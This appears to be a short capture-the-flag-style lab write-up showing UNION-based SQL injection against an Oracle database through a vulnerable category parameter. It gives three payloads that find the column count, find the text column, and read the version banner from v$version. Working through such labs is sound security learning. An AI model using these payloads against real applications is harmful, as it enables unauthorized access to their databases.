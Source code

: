 
### SQL injection attack, querying the database type and version on Oracle : PRACTITIONER

---

> Category parameter is vulnerable to sql injection. First thing to do is get the number of columns. This is an oracle database, so must add `FROM DUAL` at the end of the query. If the FROM part wasn't added, the payloads wouldnt work, confirming it as an oracle database.
```
' UNION SELECT NULL, NULL FROM DUAL--
```
> The query has 2 output columns.

> Find out the column data types, and we need text to display the banner of the database.
```
' UNION SELECT 'a', NULl FROM DUAL--
```
> The first column works, so just use it.

> Change the first column to display the banner of the oracle database as requested, and change the table to `v$version`.
```
' UNION SELECT BANNER, NULL FROM v$version--
```
> outputs the banner of the database as needed.

---
